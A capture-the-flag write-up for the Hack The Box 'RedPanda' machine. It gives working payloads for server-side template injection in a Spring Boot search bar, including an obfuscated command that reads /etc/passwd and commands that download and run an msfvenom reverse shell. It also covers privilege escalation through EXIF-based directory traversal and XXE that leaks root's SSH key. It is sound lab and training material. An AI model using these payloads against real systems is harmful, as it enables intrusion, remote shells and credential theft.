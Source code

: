 # redpanda-htb-walkthrough
<h3> About the Lab:</h3>
This is a Linux machine that requires exploiting SSTI in a Java SpringFramework application via a search bar on the webpage for RCE and then initial access. For privilege escalation, we will need to emulate what group the user is in, discover a log file he/she has access to, use pspy to discover a JAR file root periodically run, study that JAR file to discover conditions required to pass, exploiting directory traversal, and generate an XXE XML file to leak root’s SSH private key. The privilege escalation for this machine is HARD and shouldn’t be an easy category machine. But let’s get started!

## User Own:
Connect VPN first: `sudo openvpn [your.ovpn file]`<br>
First thing first, run nmap scan on the RedPanda server: `nmap -sS -A -p- -T4 [machine-ip]`<br>
**From nmap Enumeration:**<br>
**port 22**: SSH service<br>
**port 8080**: Red Panda Search (powered by Spring Boot)

We run some other tools as well to gather as much information possible to find out existing vulnerability in the system:<br>
`dirb [url] [wordlist]`<br>
`curl -v [url]`

![image](https://user-images.githubusercontent.com/31168741/203845250-2f90a1ca-396f-4546-865d-623841800910.png)
![image](https://user-images.githubusercontent.com/31168741/203845289-5f991ccb-a71c-4c2f-bcca-2ee00a747d45.png)

From above, we find out it is built in Spring framework Java. We found 3 accessible directories as well. Browse the website manually and inspect each endpoint with Burp Suite. If no input is provided, the search endpoint returns:

![empty_input](https://user-images.githubusercontent.com/31168741/203846234-ac32fa99-1973-4490-bb19-b6b760866f3b.png)

The stats provides some statistics for 2 different authors:<br>
**woodenk**<br>
**damian**<br>
and an export function, which generates a report for each specific user.

![stats_author_woodenk](https://user-images.githubusercontent.com/31168741/203846805-89cb2072-f645-401e-a253-dcbcac02bbfd.png)

Other than that, we've tested for various injections (SQL Injection, XXE Injection) etc. and turns out there is an SSTI injection within the search function, but some characters are blacklisted.<br>

<h3>So what is an SSTI Injection?</h3>
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side. For further information: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection<br>

A list of payloads that can be used for checking if the site is vulnerable to SSTI:

![Capture](https://user-images.githubusercontent.com/31168741/203847710-53ca4cb6-033e-440b-a85a-a952488b2f34.PNG)

4 of the payloads didn't work since some of the symbols are blacklisted by the server.

>**Error occured: banned characters**<br>

Oddly enough, the # (pound) symbol and * (star) have done the work and we can confirm the SSTI.

![ssti_confirmed](https://user-images.githubusercontent.com/31168741/203847928-026c15c3-ab62-415e-a887-7bc63588aabf.png)
![image](https://user-images.githubusercontent.com/31168741/203847951-a3bd0348-beee-42fe-98e0-7061a58dc19d.png)

Both mathematical operations 1+3+3+7 and 7+7 equals 14 we can tell that the payload got executed by the server, since we see the expected output.

<h3>SSTI into RCE:</h3>
The nmap scan reveals that the web application is powered by Spring Boot – so is it a Java application. Let's verify our payload by reading /etc/passwd. Use [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)'s Template Injection cheat sheet and find a suitable payload that bypasses the blacklist filter.<br>
Hint: The payload won't work, unless we change the $ (dollar sign) to an * (asterisk).<br>

`${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}`

![image-1](https://user-images.githubusercontent.com/31168741/204106233-2b022041-c1d7-4155-86ab-91b8e5f3eacc.png)

<h3>Reverse Shell</h3>
Note: pentest.ws (Helps to create a reverse shell)
The shell:<br>
msfvenom -p linux/x64/shell_reverse_tcp LHOST=[your-machine-ip] LPORT=1234 -f elf > rs.elf<br>
Start your HTTP server in the same location as r.elf the reverse shell to the target machine: python3 -m http.server 80. Now the payload we'll use here is: *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("")}; as it is java based (collected from github). Now intercept the get request from searchbar and put the payload in the value section accordingly:<br>
To transfer the payload to the target machine:<br>
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget [your-machine-ip]/rs.elf")}<br>
To change the permission:<br>
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./rs.elf")}<br>
Now we execute but before that, do not forget to generate a listener:<br>
nc -lvnp 1234<br>
Execute: *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./rs.elf")}<br>
Upgrading to the tty shell so that we can get a better view to follow: python3 -c 'import pty; pty.spawn("/bin/bash")'

![image](https://user-images.githubusercontent.com/31168741/204106736-02c77520-4e37-43a1-89ce-8383d18f52fc.png)

In the server yay! Pass for user Woodenk is found under the directory:<br>
>/home/woodenk<br>
>user.txt

## System Own:
<h3>Privilege Escalation</h3>
We run pspy64(snoop unpriviledged Linux processes) to observe. We notice a JAR file is being executed by root within a time interval.<br>
woodenk@redpanda:/home/woodenk$ `cd /tmp`<br>
woodenk@redpanda:/tmp$ `wget 10.10.16.9/pspy64` (Chnage the ip with your localhost)<br>
woodenk@redpanda:/tmp$ `chmod +x ./pspy64`<br>
woodenk@redpanda:/tmp$ `./pspy64`<br>

![image-25](https://user-images.githubusercontent.com/31168741/204232264-1a76f509-48c9-4f65-bdb2-23c479653fcd.png)

We host an HTTP server at port 8000 in /opt/credit-score/LogParser/final/target/ and download the file. Opening the JAR file using jd-gui, it appears that /opt/panda_search/redpanda.log is being read in main().

![image-26](https://user-images.githubusercontent.com/31168741/204232850-b2bd1377-acd0-4ff0-881f-7aa4fbcac886.png)

According to the code, there are a few conditions to pass:<br>
•	The line must contain “.jpg” in the string<br>
•	split() will be done to the string where “||” is the delimiter.<br>
•	The string must be split into 4 strings:<br>
•	The first string must be a number.<br>
•	4th string must be pointing to an existing .jpg file.<br>
•	The .jpg file’s metadata tag “Artist” must have a value that matches to /credits/<author_name>_creds.xml.

<h3>Create a JPG file and add the author's name</h3>
• Since the current user does not have WRITE access to /credits, we set the “Artist” value to “../tmp/gg” where our XML exploit will be at /tmp/gg_credits.xml.
• JPG file should be in a folder where the current user has WRITE access. I used /tmp.
• Use ExifTool to add the Artist tag with the value “../tmp/gg”: `$exiftool -Artist="../tmp/gg" pe_exploit.jpg`

![image](https://user-images.githubusercontent.com/31168741/204234748-65bf3ada-8707-4045-a606-67e107200337.png)

<h3>Create an XML file</h3>
•	We create an XML file following the structure of existing XML file on the victim’s machine.

![image](https://user-images.githubusercontent.com/31168741/204234971-ce3ad4c7-8022-4468-8b28-0330e23ae26a.png)

•	We transfer both files in the target machine and modify the log file:<br>
woodenk@redpanda:/tmp$ `wget 10.10.16.9/pe_exploit.jpg -P /tmp`<br>
woodenk@redpanda:/tmp$ `wget 10.10.16.9/gg_creds.xml -P /tmp`<br>
woodenk@redpanda:/tmp$ `echo "222||a||a||/../../../../../../tmp/pe_exploit.jpg" > /opt/panda_search/redpanda.log`<br>

•	Wait for a few minutes and read gg_creds.xml. We should see foo’s value is now replaced with root’s private key.

![image](https://user-images.githubusercontent.com/31168741/204235403-b8dbb2cd-3139-48ca-9a85-741a5985cc45.png)

•	Store the private key in root.txt and change its permission before SSH into the victim’s machine as root using the private key.<br>
`$ chmod 600 ./root.txt`<br>
`$ ssh root@10.10.11.170 -i root.txt`<br>

![image](https://user-images.githubusercontent.com/31168741/204235635-2fcbc084-29d1-4951-a171-b43fce2d3698.png)

•	We find root flag in root.txt.

![image](https://user-images.githubusercontent.com/31168741/204235760-36a7593a-f1a1-4b53-95d4-fa6f7c778d88.png)

Solved!






